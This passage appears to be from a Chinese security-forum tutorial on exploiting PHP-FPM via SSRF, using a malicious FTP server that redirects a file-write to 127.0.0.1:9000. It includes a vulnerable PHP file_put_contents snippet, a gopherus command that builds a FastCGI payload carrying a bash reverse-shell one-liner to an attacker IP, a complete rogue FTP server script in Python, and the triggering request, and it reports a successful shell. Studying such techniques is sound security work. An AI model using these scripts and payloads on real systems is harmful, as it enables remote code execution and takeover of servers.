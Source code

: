 运行上述脚本，一个恶意ftp服务就起来了：

![image-20210501222030292](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f9a98f501b2ebada6cdce4ccea47c4428a99b309.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

最后，构造如下请求，触发攻击：

```python
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

![image-20210501222311541](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5b0f0e0171f67a32707b60cd2b0542509c0cfb91.png)

成功反弹shell：

![image-20210502091431248](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-46d601452d49921a83fc4d5c027d4532a7c00d86.png)

假设有以下代码：

```php
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

经测试目标主机的 9000 端口上存在 PHP-FPM ，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

![image-20210501221742319](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c69636d75fa8aee070b13c9b176d0946692d156c.png)

得到的payload只截取 `_` 后面的数据部分。

然后再攻击机上执行以下python脚本搭建一个恶意的 ftp 服务器：

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```